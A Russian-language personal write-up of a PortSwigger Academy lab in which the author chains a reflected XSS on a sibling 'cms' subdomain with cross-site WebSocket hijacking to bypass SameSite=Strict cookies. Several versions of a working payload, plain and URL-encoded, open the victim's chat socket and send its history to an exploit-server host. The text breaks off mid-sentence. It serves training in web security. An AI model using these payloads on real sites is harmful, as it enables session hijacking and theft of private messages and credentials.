






лаба https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain
##### Обход ограничений SameSite через уязвимые дочерние домены

Функция живого чата в этой лаборатории уязвима для межсайтового взлома WebSocket (CSWSH). Чтобы решить проблему с лабораторией, войдите в учетную запись жертвы

задание
это кросс-сайт WebSocket-хайджек (CSWSH)
----суть: надо украсть историю чата жертвы, откуда вытащить логин/пароль и зайти в её аккаунт

тут короче и xss, и ws , и csrf ...
жесть.. еще и чат, там ии отвечает мне..

-----

изучаю карту сайта...

есть фнукция чаты, типо с ИИ 

чат работает через веб-сокет, и я пока не вижу рукопожатия.. то есть сразу соединение открыто уже..


---

этот же файл видно в html стр чата
```html
 <script src="/resources/js/chat.js"></script>
```

также вижу, что висит в истории сайта файл js по адресу `GET /resources/js/chat.js HTTP/2`
вот он
```js
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: public, max-age=3600
Access-Control-Allow-Origin: https://cms-0a0a00980430336881ba7a3500920053.web-security-academy.net
X-Frame-Options: SAMEORIGIN
Content-Length: 3561

(function () {
    var chatForm = document.getElementById("chatForm");
    var messageBox = document.getElementById("message-box");
    var webSocket = openWebSocket();

    messageBox.addEventListener("keydown", function (e) {
        if (e.key === "Enter" && !e.shiftKey) {
            e.preventDefault();
            sendMessage(new FormData(chatForm));
            chatForm.reset();
        }
    });

    chatForm.addEventListener("submit", function (e) {
        e.preventDefault();
        sendMessage(new FormData(this));
        this.reset();
    });

    function writeMessage(className, user, content) {
        var row = document.createElement("tr");
        row.className = className

        var userCell = document.createElement("th");
        var contentCell = document.createElement("td");
        userCell.innerHTML = user;
        contentCell.innerHTML = (typeof window.renderChatMessage === "function") ? window.renderChatMessage(content) : content;

        row.appendChild(userCell);
        row.appendChild(contentCell);
        document.getElementById("chat-area").appendChild(row);
    }

    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        openWebSocket().then(ws => ws.send(JSON.stringify(object)));
    }

    function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }

    function openWebSocket() {
       return new Promise(res => {
            if (webSocket) {
                res(webSocket);
                return;
            }

            let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }

            newWebSocket.onmessage = function (evt) {
                var message = evt.data;

                if (message === "TYPING") {
                    writeMessage("typing", "", "[typing...]")
                } else {
                    var messageJson = JSON.parse(message);
                    if (messageJson && messageJson['user'] !== "CONNECTED") {
                        Array.from(document.getElementsByClassName("system")).forEach(function (element) {
                            element.parentNode.removeChild(element);
                        });
                    }
                    Array.from(document.getElementsByClassName("typing")).forEach(function (element) {
                        element.parentNode.removeChild(element);
                    });

                    if (messageJson['user'] && messageJson['content']) {
                        writeMessage("message", messageJson['user'] + ":", messageJson['content'])
                    } else if (messageJson['error']) {
                        writeMessage('message', "Error:", messageJson['error']);
                    }
                }
            };

            newWebSocket.onclose = function (evt) {
                webSocket = undefined;
                writeMessage("message", "System:", "--- Disconnected ---");
            };
        });
    }
})();


```

вижу cms домен - `Access-Control-Allow-Origin: https://cms-0a0a00980430336881ba7a3500920053.web-security-academy.net`

в коде вижу весь функционал работы чата!

в том числе шифровка спе символов
```js
function htmlEncode(str) {
        if (chatForm.getAttribute("encode")) {
            return String(str).replace(/['"<>&\r\n\\]/gi, function (c) {
                var lookup = {'\\': '&#x5c;', '\r': '&#x0d;', '\n': '&#x0a;', '"': '&quot;', '<': '&lt;', '>': '&gt;', "'": '&#39;', '&': '&amp;'};
                return lookup[c];
            });
        }
        return str;
    }
```


эти шифрованные строки отправляются в смс в чате 
```js
    function sendMessage(data) {
        var object = {};
        data.forEach(function (value, key) {
            object[key] = htmlEncode(value);
        });

        openWebSocket().then(ws => ws.send(JSON.stringify(object)));
    }
```

сразу у меня мысль, что зная исход код функции валидации - можно попробовать обойти валидацию!

и потомм, как я понял - эти смс просто вставляются в сам чат без валидации
`document.getElementById("chat-area").appendChild(row);`

но сами тексты смс - обрабатываются только этой функцией и не попадают в html сайта!


-----------

еще есть такая функция 
```js
 let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }
```
эта функция когда срабатывает - то сервер шлет все смс, всю историю переписки скидывает
и начинается все с отправки send("READY")

-------
еще нашел chatForm этот в html стр чата

```html
   <form id="chatForm" action="wss://0a0a00980430336881ba7a3500920053.web-security-academy.net/chat">

 <p>Your message: </p>
                        <textarea id="message-box" name="message" maxlength=500></textarea>
                        <button class="button" type="submit">
                            Send
                        </button>
```

здесь видно адрес открытия веб сокет соединения
`wss://0a0a00980430336881ba7a3500920053.web-security-academy.net/chat`
протокол `wss://` (WebSocket Secure)




----

то есть я могу это использовать так - чтобы самому открывать соединение и получать данные чата,

samesite установлен в strict, что жестко как-бы.. он не будет отправлять куку куда-попало
strict придется обойти тоже..




-----

при отправке READY в ws - в ответе получаю сразу всю свою переписку
в переписке только смс  и все




--------

рукопожатие происходит здесь:
нужно чтобы брауз и серв поняли друг друга и уст связь

при запросе /chat
```http
GET /chat HTTP/2
Host: 0a0a00980430336881ba7a3500920053.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0a0a00980430336881ba7a3500920053.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate, br
Accept-Language: ru-RU,ru;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: session=5gHljIdcmRvxwseg8XkSDFOQCRiwUlBd
Sec-Websocket-Key: 2XKsx15MNUrPCfUkJfvfGg==


```
ключ 2XKsx15MNUrPCfUkJfvfGg==  (видимо был сгенерирован самим браузером)


ответ
```http
HTTP/1.1 101 Switching Protocol
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: Vk+m3efp377lGiB0ynB7tMiS6K4=
Content-Length: 0


```
ключ Vk+m3efp377lGiB0ynB7tMiS6K4=  (пришел от сервера!)


------

так как у нас тут strict - то было норм - обойти его путем редиректа через домашние поддомены -  которым доверяет сервер

и по запросам - например:
`GET /resources/css/labsEcommerce.css HTTP/2`
или
`GET /resources/images/shop.svg HTTP/2`
или
`GET /resources/images/rating1.png HTTP/2`
а также в самом js файле в функциями месседж
`Access-Control-Allow-Origin: https://cms-0a0a00980430336881ba7a3500920053.web-security-academy.net`


приходит ответ
c `https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net`
```http
HTTP/2 200 OK
Content-Type: image/svg+xml
Cache-Control: public, max-age=3600
Access-Control-Allow-Origin: https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net
X-Frame-Options: SAMEORIGIN
Content-Length: 7124
```




это важный момент - так как для браузера такой домен (для контента) воспринимается - как этот же домен что и основной, и браузер доверяет часто ему, а раз доверяет - то и при использовании кук `session` с `SameSite=Strict` браузер будет их подставлять!

----

итак - что мы имеем сейчас:

1 знаю как открыть веб сокет (wss://.../chat) и получить историю смс через READY

2 стоит на куках STRICT то есть просто так кука не уедет никуда

3 есть дочерний домен cms  `https://cms-0a..cc.we...y.net` 

4 - осталось выяснить - как украсть чужие смс путем перехода жертвы по ссылке на мой сервер

-----

посмотрим на этот контент-домен
`Access-Control-Allow-Origin: https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net`

смотрю - тут висит форма лог+пароль
естественно с SameSite=Strict
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=7I21zFWX8QZMNX7rVFSwnbYCn2be5Nab; Secure; HttpOnly; SameSite=Strict
Content-Length: 469

<html>
    <head>
        <title>Login</title>
    </head>
    <body>
        <h1>Login</h1>
        <section>
            <form method="POST" action="/login">
                <label>Username</label>
                <input required="" type="username" name="username"/>
                <label>Password</label>
                <input required="" type="password" name="password"/>
            <button type="submit"> Log in </button>
        </section>
    </body>
</html>

```




пробую логиниться , и поменял пост на гет и вуаля - сработало
то есть по ссылочке можно передавать, 
```http
GET /login?username=<script>alert(1)</script>&password=peter HTTP/2
Host: cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net
Cookie: session=7I21zFWX8QZMNX7rVFSwnbYCn2be5Nab
....
..
.
```

параметры отражвются в html
```html
HTTP/2 200 OK

 <p>Invalid username: <script>alert(777)</script></p>
```

ну прям мед!
xss без какой-либо валидации! работает по ссылке на ура!
`https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=<script>alert(777)</script>&password=peter`




-----

итого - что я имею теперь:

1 - xss через cms поддомен
2  знаю как открыть веб сокет (wss://.../chat) и получить историю смс через READY

меня осинило...

я могу пихнуть в XSS js код который откроет веб-сокет соединение
и отправит данные на мой сервер!
и так как тут это родной домен, то браузер подставит куку жертвы и все должно сработать!

я зашел так далеко уже в этой лабе (как мне кажется - и во будет потеха, если решение строится по другому)

-------

короче- план

сделать js скрипт (на основе того файла )
этот скрипт будет внутри XSS ссылкой на `https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3Ealert(777)%3C/script%3E&password=peter`

сам скрипт должен будет выполнить запрос на отк веб сокет 
и отправит первое смс - READY
```js
function openWebSocket() {
       return new Promise(res => {
            if (webSocket) {
                res(webSocket);
                return;
            }

            let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

            newWebSocket.onopen = function (evt) {
                writeMessage("system", "System:", "No chat history on record");
                newWebSocket.send("READY");
                res(newWebSocket);
            }
```

экшн вот `<form id="chatForm" action="wss://0a0a00980430336881ba7a3500920053.web-security-academy.net/chat">` со стр чата

и полученные смс - перешлет на мой эксплойт сервер!
вот сюда `https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit`

-----

вот скрипт...

```js
<script>

// создал
    var ws = new WebSocket('wss://0a0a00980430336881ba7a3500920053.web-security-academy.net/chat');
    
    // шлю старт команду - вернет все смс
    ws.onopen = function() {
        ws.send("READY");
    };
    
    // все смс - на мой сервак
    ws.onmessage = function(event) {
        fetch('https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
    
    
</script>
```

вот ссылка
`https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3E ВОТ СЮДА НУЖНО ПИХНУТЬ МОЙ СКРИПТ %3C/script%3E&password=peter`


ну и завернуть все в ссылочку
например так
```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3E ВОТ СЮДА НУЖНО ПИХНУТЬ МОЙ СКРИПТ %3C/script%3E&password=peter";
</script>
```

оберну свой гениальный скрипт в url кодир


```js
<script>
    var ws = new WebSocket('wss://0a0a00980430336881ba7a3500920053.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>

получается 

%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%27%77%73%73%3A%2F%2F%30%61%30%61%30%30%39%38%30%34%33%30%33%33%36%38%38%31%62%61%37%61%33%35%30%30%39%32%30%30%35%33%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%27%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%28%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%37%34%30%30%63%39%30%33%32%38%36%35%33%61%38%30%33%38%39%64%37%30%30%31%65%37%30%30%37%38%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%27%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%65%74%68%6F%64%3A%20%27%50%4F%53%54%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%6F%64%65%3A%20%27%6E%6F%2D%63%6F%72%73%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%62%6F%64%79%3A%20%65%76%65%6E%74%2E%64%61%74%61%0A%20%20%20%20%20%20%20%20%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E
```

и пихаю все сюда

```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3E%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%27%77%73%73%3A%2F%2F%30%61%30%61%30%30%39%38%30%34%33%30%33%33%36%38%38%31%62%61%37%61%33%35%30%30%39%32%30%30%35%33%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%27%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%28%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%37%34%30%30%63%39%30%33%32%38%36%35%33%61%38%30%33%38%39%64%37%30%30%31%65%37%30%30%37%38%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%27%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%65%74%68%6F%64%3A%20%27%50%4F%53%54%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%6F%64%65%3A%20%27%6E%6F%2D%63%6F%72%73%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%62%6F%64%79%3A%20%65%76%65%6E%74%2E%64%61%74%61%0A%20%20%20%20%20%20%20%20%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E%3C/script%3E&password=peter";
</script>
```

а теперь - делаю это как ответ моего сервера (эксплойт сервак лабы)


ну и финал - отправляю жертве ссылочку `https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit`

смотрю логи- и там нихуя нет кроме user-agent: Mozilla/5.0 (Victim)


а все потому что я вставил сюда вот так  скрипт в скрипте

`%3Cscript%3E и тут внутри закодир скрипт %3C/script%3E` браво..

```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3E ВОТ СЮДА НУЖНО ПИХНУТЬ МОЙ СКРИПТ %3C/script%3E&password=peter";
</script>
```

убираю эту ерунду

```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%27%77%73%73%3A%2F%2F%30%61%30%61%30%30%39%38%30%34%33%30%33%33%36%38%38%31%62%61%37%61%33%35%30%30%39%32%30%30%35%33%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%27%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%28%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%37%34%30%30%63%39%30%33%32%38%36%35%33%61%38%30%33%38%39%64%37%30%30%31%65%37%30%30%37%38%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%27%2C%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%65%74%68%6F%64%3A%20%27%50%4F%53%54%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%6D%6F%64%65%3A%20%27%6E%6F%2D%63%6F%72%73%27%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%62%6F%64%79%3A%20%65%76%65%6E%74%2E%64%61%74%61%0A%20%20%20%20%20%20%20%20%7D%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E&password=peter";
</script>
```

и никуя не работает...

```js
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3Evar%20ws%20%3D%20new%20WebSocket('wss%3A%2F%2F0a0a00980430336881ba7a3500920053.web-security-academy.net%2Fchat')%3Bws.onopen%20%3D%20function()%20%7B%20ws.send(%22READY%22)%3B%20%7D%3Bws.onmessage%20%3D%20function(event)%20%7B%20fetch('https%3A%2F%2Fexploit-0a7400c90328653a80389d7001e70078.exploit-server.net%2Fexploit'%2C%20%7B%20method%3A%20'POST'%2C%20mode%3A%20'no-cors'%2C%20body%3A%20event.data%20%7D)%3B%20%7D%3B%3C%2Fscript%3E&password=peter";
</script>
```

и снова никуя не работает...

никуя не пойму...

------

я перепроверил вот так
```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3Ealert(7676)%3C/script%3E&password=peter";
</script>
```
сам перешел на свой же сервер и алерт появился!
значит проблемка в самом скрипте или в его кодировке

--------

ПЕРЕПРОВЕРЮ ПРАВИЛЬНОСТЬ ДОМЕНОВ:

вот свежий первый
 wss://0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/chat">

вот рабочий тоже 
https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3Cscript%3Ealert(777)%3C/script%3E&password=peter

вот самой лабы 
 https://0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/product?productI

и вот эксплойт сервера
https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit

подставил в скрипт
```js
<script>
    var ws = new WebSocket('wss://0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-0a7400c90328653a80389d7001e70078.exploit-server.net/exploit?log=' + encodeURIComponent(event.data));
    };
</script>
```

скприпт в url закодирвоал
и пихнул в параметр username= где раньше алерт был у меня

```html
<script>
    document.location = "https://cms-0af500e5039b65a5807a9eaf00ce00cc.web-security-academy.net/login?username=%3C%73%63%72%69%70%74%3E%0A%20%20%20%20%76%61%72%20%77%73%20%3D%20%6E%65%77%20%57%65%62%53%6F%63%6B%65%74%28%27%77%73%73%3A%2F%2F%30%61%66%35%30%30%65%35%30%33%39%62%36%35%61%35%38%30%37%61%39%65%61%66%30%30%63%65%30%30%63%63%2E%77%65%62%2D%73%65%63%75%72%69%74%79%2D%61%63%61%64%65%6D%79%2E%6E%65%74%2F%63%68%61%74%27%29%3B%0A%20%20%20%20%77%73%2E%6F%6E%6F%70%65%6E%20%3D%20%66%75%6E%63%74%69%6F%6E%28%29%20%7B%0A%20%20%20%20%20%20%20%20%77%73%2E%73%65%6E%64%28%22%52%45%41%44%59%22%29%3B%0A%20%20%20%20%7D%3B%0A%20%20%20%20%77%73%2E%6F%6E%6D%65%73%73%61%67%65%20%3D%20%66%75%6E%63%74%69%6F%6E%28%65%76%65%6E%74%29%20%7B%0A%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3A%2F%2F%65%78%70%6C%6F%69%74%2D%30%61%37%34%30%30%63%39%30%33%32%38%36%35%33%61%38%30%33%38%39%64%37%30%30%31%65%37%30%30%37%38%2E%65%78%70%6C%6F%69%74%2D%73%65%72%76%65%72%2E%6E%65%74%2F%65%78%70%6C%6F%69%74%3F%6C%6F%67%3D%27%20%2B%20%65%6E%63%6F%64%65%55%52%49%43%6F%6D%70%6F%6E%65%6E%74%28%65%76%65%6E%74%2E%64%61%74%61%29%29%3B%0A%20%20%20%20%7D%3B%0A%3C%2F%73%63%72%69%70%74%3E&password=peter";
</script>
```

залил на эксплойт сервер - и отправил жертве

получаю ответ

